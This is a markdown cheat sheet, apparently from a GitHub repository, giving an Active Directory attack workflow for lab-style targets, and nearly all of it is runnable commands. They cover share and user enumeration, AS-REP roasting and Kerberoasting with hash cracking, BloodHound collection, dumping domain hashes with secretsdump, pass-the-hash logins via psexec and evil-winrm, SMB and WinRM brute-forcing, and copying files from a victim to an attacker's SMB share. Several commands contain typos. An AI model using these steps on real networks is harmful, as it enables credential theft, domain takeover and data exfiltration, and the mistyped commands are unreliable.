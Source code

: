 ## Active Directory 
### Machine workflow
- [Tools](#too)
- [Enumerate Ports and Shares](#enum)
- [Identify valid users](#user)
- [Obtain users has who have kerberos pre auth set](#gnp)
- [Crack the hash to obtain the password](#cra)
- [Repeat Recon](#rrpc)
- [Enumerate other users in the network](#enumu)
- [Remote login if hash is obtained](#pwn)

### Required Tools <a name='too'></a>
- [Impackets](https://github.com/SecureAuthCorp/impacket)
- [CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec)
- [Kerbrute](https://github.com/ropnop/kerbrute)
- [Windsearch](https://github.com/ropnop/go-windapsearch)
- [EvilWinRM](https://github.com/Hackplayers/evil-winrm)
- [BloodHound.py](https://github.com/fox-it/BloodHound.py)

### Enumeration Ports <a name="enum"></a>
```bash
# nmap 
nmap -p- --min-rate=1000 -oN ports -vv <machine-ip>
# sorting ports
open=$(cat ports | grep ^[0-9] | cut -d '/' -f1 | tr '\n' ',' | sed s/,$//))
# enumerate services
nmap -sC -sV -p$open -oN nmap.out -T4 -vv <machine-ip>
```

### Anonymous Access
```bash
# crackmapexec
crackmapexec smb <machine-ip> -u'' -p'' <machine-ip> --shares

# smbclient
smbclinet -N -L \\<machine-ip>\\

#rpcclinet
rpcclient -U '' -P'' <machine-ip> # logs into the network if anon login is permitted
rpcclinet $> enumdomusers # enumerates the AD users
```

### Accessing a SMB Share
```bash
# smbclient
smbclient \\\\<machine-ip>\\<share-name>
```

### User Enumeration <a name='user'></a>

- kerbrute

```bash
# no authentication is required, just the user name list
# enumerate AD users with kerbrute
kerbrute userenum --dc 10.10.*.* -d <domain-name> <username(s)>
```

### Mounting an open share

```bash
# mount an anonymous login share
sudo mount -t cifs '//10.10.*.*/ShareName' /<mount-location>
```

### Kerberos Hacking <a name="gnp"></a>
```bash
# after obtaining valid users, look for users with kerberos preauth set
GetNPUsers.py -dc-ip <machine-ip> -format hashcat -usersfile <username(s)> <domain-name>/ -outputfile <hash-output>
```

### Obtaining Password <a name="cra"></a>
```bash
# cracking with hashcat
# TGT hash crack
hashcat -m 18200 -w /usr/share/wordlists/rockyou.txt <hash-file>
# SPN hash crack
hashcat -m 13100 -w /usr/share/wordlists/rockyou.txt <hash-file>

# cracking with JOHN THE RIPPER
# TGT hash crack
john --format=krb5tgs -w=/usr/share/wordlists/rockyou.txt <hash-file>
```

### Recon as a user in network <a name='rrpc'></a>
```bash
# since we have the user credentials for a user in the AD network, recon again to obtain files with specific permissions

# enumerate smb shares
crackmapexec smb <machine-ip> -u '<username>' -p '<password>'  --shares

# accessing smb share
smbclient -L \\\\<machine-ip>\\<share-name> -U <username> <password>

# mounting the share
sudo mount -t cifs -o 'username=UserName,password=Password' '//10.10.*.*/ShareName' /<mount-location>

# enumerate anything ¯\_(ツ)_/¯ with windsearch 
windsearch -d <domain-name> -u <user-name> -p <password> -m <module>
```

### Enumerate other users <a name="enumu"></a>
```bash
# a valid login into the network is required
# getadusers.py from impackets
GetADUsers.py --all -dc-ip <machine-ip> <domain-name>/<username>:<password> # TGT will be obtained which can be cracked offline

# enumerate service name principles
GetUserSPNs.py -request -dc-ip <machine-ip> <domain-name>/<username>:<password> # SPN hash will be obtained which can be cracked offline

# via rpcclient
rpcclient -U <username> -P <password> <machine-ip> #logged into the network
rpcclinet $> enumdomusers # enumerate users in the active directory environment

# crackmapexec
crackmapexec smb <machine-ip> -u <username> -p <password> --users

# windsearch 
windsearch -d <domain-name> -u <user-name> -p <password> -m users
```

### Bloodhound Enumeration <a name='bh'></a>
```bash
# setup
git clone https://github.com/fox-it/BloodHound.py; cd BloodHound.py; python3 setup.py install

# Running bloodhound.py (run on linux)
python3 bloodhound.py -u <username> -p <password> -ns <machine-ip> -d <domain> -c all 
```
```powershell
# with sharpsploit
powershell -ep bypass
import-module .\SharpHound.ps1
invoke-bloodhound -collectionmethod all -domain <domain-name> -ldapuser <user-name> -ldappass <password>
```

```bash
# start the neo4j console
sudo ne04j console

# start the bloodhound
cd /opt/bloodhound-linux-x64/
./BloodHound

# import all the json files
# mark the obtained user as owned user and the target user as high value target
```

### Owning the machine <a name='pwn'></a>
```bash
# perform bloodhound enumeration
# if the access to the backup account is obtained,
secretsdump.py -dc-ip <machine-ip> -just-dc <domain-name>/backup:<password>@<domain-name>

# login to the machine

# psexec.py
# with password
psexec.py <domain-name>/<username>:<password>@<domain-namee>
# with ntlm hash
psexec.py -hashes <ntml:hashes> <username>@<domain-name> -target-ip <machine-ip> -dc-ip <machine-ip>
psexec.py -hashes <ntlm:hashes> <username>@<machine-ip>


# evilwinrm
# with password
evilwinrm -i <machine-ip> -u <username> -p <password>
# with ntlm hash
evilwinrm -i <machine-ip> -H <ntlm hash from secretsdump> -u <username>
```

### Misc

#### Bruteforce
##### Hydra
```bash
# bruteforcing smb login
hydra -L users.txt -P pass.txt 10.10.*.* smb
```
##### Crackmapexec
```bash
# bruteforcing smb login, enumerating the available shares with --shares option
crackmapexec smb 10.10.*.* -u user.txt -p pass.txt --shares --continue-on-success

# bruteforcing winrm login
crackmapexec winrm 10.10.*.* -u users.txt -p pass.txt --continue-on-success 
```
##### Medusa
```bash
# bruteforcing smb login
medusa -h 10.10.*.* -U users.txt -P pass.txt -M smbnt 
```

#### File Transfer
##### SMB Service
```bash
# start a smb service in linux
# anonymous share
smbserver.py <share-name> . -smb2support
# authenticated share
smbserver.py <share-name> . -smb2support -username <username> -password <password>

# connect to the smbshare in windows
# anonymous share
net use x: \\<linux-ip>\<share-name>
# authenticated share
net use x: \\<linux-ip>\<share-name> /u:<username> <password>

# Copy file from windows to linux
copy <file-in-windows> \\<linux-ip>\<share-name>\
# copy files from linux to windows
copy \\<linux-ip>\<share-name>\<file.ext> .

```

##### Useful Links
- https://gist.github.com/TarlogicSecurity/2f221924fef8c14a1d8e29f3cb5c5c4a
- https://cheatsheet.haax.fr/windows-systems/exploitation/impacket/
- https://cheatsheet.haax.fr/windows-systems/exploitation/kerberos/
- https://github.com/S1ckB0y1337/Active-Directory-Exploitation-Cheat-Sheet
